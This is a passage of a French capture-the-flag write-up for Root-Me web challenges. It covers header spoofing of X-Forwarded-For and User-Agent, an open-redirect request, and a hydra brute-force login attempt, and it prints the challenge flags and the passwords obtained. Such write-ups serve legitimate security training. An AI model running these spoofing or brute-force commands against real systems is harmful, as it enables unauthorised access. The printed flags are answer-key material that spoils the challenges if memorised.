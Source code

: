 ```bash
wget http://challenge01.root-me.org/web-serveur/ch68/ --header 'X-Forwarded-For: 192.168.1.1'
cat index.html
```

Résultat attendu :

```
Well done, the validation password is: <strong>Ip_$po0Fing</strong>
```

---

## 3. HTTP - Open redirect

L'objectif est d'exploiter une redirection ouverte, permettant de rediriger un utilisateur vers un autre site.

### Solution avec `cURL` :

```bash
curl -G http://challenge01.root-me.org/web-serveur/ch52/ -d "url=https://google.fr&h=0edf27c83d4aa4699c0625d27be0e371" -o http-open-redirect.txt
```

L’option `-G` avec `-d` permet d’envoyer des données en `GET`, et `-o` enregistre le résultat dans un fichier texte.

---

## 4. HTTP - User-agent

Certains sites accordent des permissions spéciales en fonction de l'User-Agent.

### Solution avec `cURL` :

```bash
curl -v --header "User-Agent: admin" -X GET http://challenge01.root-me.org/web-serveur/ch2/
```

Flag obtenu : `rr$Li9%L34qd1AAe27`

---

## 5. Mot de passe faible

L'objectif est de tester la robustesse d'un mot de passe en utilisant un outil de force brute.

### Solution avec `hydra` :

```bash
hydra -l admin -P rockyou.txt -e nrs -vv challenge01.root-me.org http-get /web-serveur/ch3/
```

Résultat attendu :

```
[80][http-get] host: challenge01.root-me.org   login: admin   password: admin
```

---